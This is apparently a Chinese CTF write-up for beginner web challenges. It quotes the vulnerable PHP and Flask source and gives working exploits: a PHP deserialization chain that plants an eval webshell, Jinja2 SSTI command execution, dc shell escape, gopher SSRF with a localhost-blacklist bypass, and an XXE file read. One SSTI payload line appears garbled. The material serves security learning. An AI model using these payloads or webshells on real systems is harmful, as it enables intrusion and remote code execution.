



Week1
ez_unser
<?php
highlight_file(__FILE__);
class Man{
private $name="原神，启动";
public function __wakeup()
{
echo str_split($this->name); //把字符串分割到数组中。
}
}
class What{
private $Kun="两年半";
public function __toString()
{
echo $this->Kun->hobby;
return "Ok";
}
}
class Can{
private $Hobby="唱跳rap篮球";
public function __get($name)
{
var_dump($this->Hobby);
}
}
class I{
private $name="Kobe";
public function __debugInfo()
{
$this->name->say();
}
}
class Say{
private $evil;
public function __call($name, $arguments)
{
$this->evil->Evil();
}
}
class Mamba{
public function Evil()
{
$filename=time().".log";
file_put_contents($filename,$_POST["content"]);
echo $filename;
}
}
class Out{
public function __call($name,$arguments)
{
$o = "./".str_replace("..", "第五人格",$_POST["o"]);
$n = $_POST["n"];
rename($o,$n);
}
}
unserialize($_POST["data"]); 先利用Mamba类的file_put_contents写入马 然后利用out类进行重命名
Exp1:
<?php
highlight_file(__FILE__);
class Man{
public $name="原神，启动";
}
class What{
public $Kun="两年半";
}
class Can{
public $Hobby="唱跳rap篮球";
}
class I{
public $name="Kobe";
}
class Say{
public $evil;
}
class Mamba{
}
// class Out{
// public function __call($name,$arguments)
// {
// $o = "./".str_replace("..", "第五人格",$_POST["o"]);
// $n = $_POST["n"];
// rename($o,$n);
// }
// }
$a = new Man();
$a->name = new What();
$a->name->Kun = new Can();
$a->name->Kun->Hobby = new I();
$a->name->Kun->Hobby->name = new Say();
$a->name->Kun->Hobby->name->evil = new Mamba();
echo urlencode(serialize($a));注意手动添加私有变量的%00
Payload1:
POST:
data=O%3A3%3A%22Man%22%3A1%3A%7Bs%3A9%3A%22%00Man%00name%22%3BO%3A4%3A%22What%22%3A1%3A%7Bs%3A9%3A%22%00What%00Kun%22%3BO%3A3%3A%22Can%22%3A1%3A%7Bs%3A10%3A%22%00Can%00Hobby%22%3BO%3A1%3A%22I%22%3A1%3A%7Bs%3A7%3A%22%00I%00name%22%3BO%3A3%3A%22Say%22%3A1%3A%7Bs%3A9%3A%22%00Say%00evil%22%3BO%3A5%3A%22Mamba%22%3A0%3A%7B%7D%7D%7D%7D%7D%7D&content=<?php @eval($_POST['hsad']);?>
// 1728572311.logrename() 函数重命名文件或目录。
如果成功，该函数返回 TRUE。如果失败，则返回 FALSE。
语法: rename(oldname,newname,context)
Exp2:
<?php
highlight_file(__FILE__);
class Man{
public $name="原神，启动";
}
class What{
public $Kun="两年半";
}
class Can{
public $Hobby="唱跳rap篮球";
}
class I{
public $name="Kobe";
}
class Say{
public $evil;
}
class Mamba{
}
class Out{
}
$a = new Man();
$a->name = new What();
$a->name->Kun = new Can();
$a->name->Kun->Hobby = new I();
$a->name->Kun->Hobby->name = new Say();
$a->name->Kun->Hobby->name->evil = new Out();
echo urlencode(serialize($a));Payload2:
POST:
data=O%3A3%3A%22Man%22%3A1%3A%7Bs%3A9%3A%22%00Man%00name%22%3BO%3A4%3A%22What%22%3A1%3A%7Bs%3A9%3A%22%00What%00Kun%22%3BO%3A3%3A%22Can%22%3A1%3A%7Bs%3A10%3A%22%00Can%00Hobby%22%3BO%3A1%3A%22I%22%3A1%3A%7Bs%3A7%3A%22%00I%00name%22%3BO%3A3%3A%22Say%22%3A1%3A%7Bs%3A9%3A%22%00Say%00evil%22%3BO%3A3%3A%22Out%22%3A0%3A%7B%7D%7D%7D%7D%7D%7D&o=1728572311.log&n=hsad.phpez_ssti
from flask import Flask, request, render_template, render_template_string
import os
app = Flask(__name__)
flag=os.getenv("flag")
os.unsetenv("flag")
@app.route('/')
def index():
return open(__file__, "r").read()
@app.errorhandler(404)
def page_not_found(e):
print(request.root_url)
return render_template_string("<h1>The Url {} You Requested Can Not Found</h1>".format(request.url))
if __name__ == '__main__':
app.run(host="0.0.0.0", port=8000)
Payload:
http://47.76.152.109:60082/{{lipsum.__globals__['os'].popen('whoami').read()}}GetShell了没找到flag 很新颖的考法 没法用fenjing命令行了 可以作为python库使用？
flag=os.getenv("flag")
os.unsetenv("flag")读到python后 unset了
flag = "aa"
print(flag.__class__.__str__(flag).__repr__())尝试了这个 不过没啥用😭
本地测⼀下就会发现就算 unset 了环境变量中的 flag ，但是 flag 变量的值不会变，所以说只要获取到 flag 变量就可以了，这⾥利用 sys 模块，sys.modules中储存了所有模块的信息，而通过代码中可以看到的是
if name == '__main__':
app.run(host="0.0.0.0", port=8000)就可以判断这个模块的 name 是 main ，所以我们可以通过 import 函数来获取 sys 模块，然后获取到 flag
{{x.__init__.__globals__['__builtins__'][']('sys')[import]('sys')[']('sys').modules['__main__'].flag}}这样就可以了，或者你可以通过 eval 、 exec 等等其他方式
ez_login
admin:admin123 登陆拿 flag
ez_rce
from flask import Flask, request
import subprocess
app = Flask(__name__)
@app.route("/")
def index():
return open(__file__).read()
@app.route("/calc", methods=['POST'])
def calculator():
expression = request.form.get('expression') or "114 1000 * 514 + p"
result = subprocess.run(["dc", "-e", expression], capture_output=True, text=True)
return result.stdout
if __name__ == "__main__":
app.run(host="0.0.0.0", port=8000)
1.
def calculator():：定义了一个名为calculator的函数。2.
expression = request.form.get('expression') or "114 1000 * 514 + p"：这行代码尝试从一个HTTP请求中获取名为 ‘expression’ 的表单字段值。如果这个字段不存在（即request.form.get('expression')返回None），则使用默认的字符串"114 1000 * 514 + p"作为表达式。这个默认表达式看起来像是一个未完成的算术表达式，其中p可能是一个占位符。3.
result = subprocess.run(["dc", "-e", expression], capture_output=True, text=True)：这行代码使用subprocess.run函数来运行dc命令。dc是一个逆波兰表示法（Reverse Polish Notation, RPN）的计算器，常用于命令行环境。参数解释如下：["dc", "-e", expression]：这是传递给subprocess.run的参数列表。第一个元素是dc程序的名称，第二个元素-e是告诉dc从命令行读取表达式，第三个元素是实际的表达式字符串。capture_output=True：这个参数指示subprocess捕获命令的标准输出和标准错误输出。text=True：这个参数设置为True以确保输出以文本形式返回，而不是字节形式。4.
return result.stdout：函数返回subprocess.run的结果的stdout属性，即dc命令的输出。这将返回计算结果的字符串表示。
$dc 2 3 + p
>5主要考察的是通过 dc 命令 rce 而不是命令拼接，因为这里使用了subprocess，不存在拼接方面的问题，也可以去查看 dc 的文档，这里用https://gtfobins.github.io/gtfobins/dc/
dc -e '!/bin/sh'
Week2
baby_ssrf
from flask import Flask, request
import os
from urllib.parse import urlparse, urlunparse
import subprocess
import socket
app = Flask(__name__)
BlackList=[
"127.0.0.1"
]
@app.route('/')
def index():
return open(__file__).read()
@app.route('/cmd',methods=['POST'])
def cmd():
if request.remote_addr != "127.0.0.1":
return "Forbidden"
if request.method == "GET":
return "Hello World!"
if request.method == "POST":
return os.popen(request.form.get("cmd")).read()
@app.route('/visit')
def visit():
url = request.args.get('url')
if url is None:
return "No url provided"
url = urlparse(url)
realIpAddress = socket.gethostbyname(url.hostname)
if url.scheme == "file" or realIpAddress in BlackList:
return "Hacker!"
result = subprocess.run(["curl","-L", urlunparse(url)], capture_output=True, text=True)
# print(result.stderr)
return result.stdout
if __name__ == '__main__':
app.run(host='0.0.0.0',port=8000)
302跳转 但是POST（不会😭
考察 ssrf 使用 gopher 协议去发POST包，可以看到这里把 127.0.0.1 过滤了，在 linux 中0.0.0.0或者0 也会作为 127.0.0.1 请求，所以这里使用 0.0.0.0 绕过就可以
先构造⼀个请求
cmd 路由执行命令的请求包

对这个请求包进行两次url编码，第⼀次是给我们的请求也就是flask去解码的，第二次编码是gopher协议进行解码

baby_xxe
from flask import Flask,request
import base64
from lxml import etree
app = Flask(__name__)
@app.route('/')
def index():
return open(__file__).read()
@app.route('/parse',methods=['POST'])
def parse():
xml=request.form.get('xml')
print(xml)
if xml is None:
return "None"
parser = etree.XMLParser(load_dtd=True, resolve_entities=True)
root = etree.fromstring(xml, parser)
name=root.find('name').text
return name or None
if __name__=="__main__":
app.run(host='0.0.0.0',port=8000)<?xml version="1.0"?>
<!DOCTYPE root [
<!ELEMENT root ANY >
<!ENTITY xxe SYSTEM "file:///flag" >]>
<root><name>&xxe;</name></root>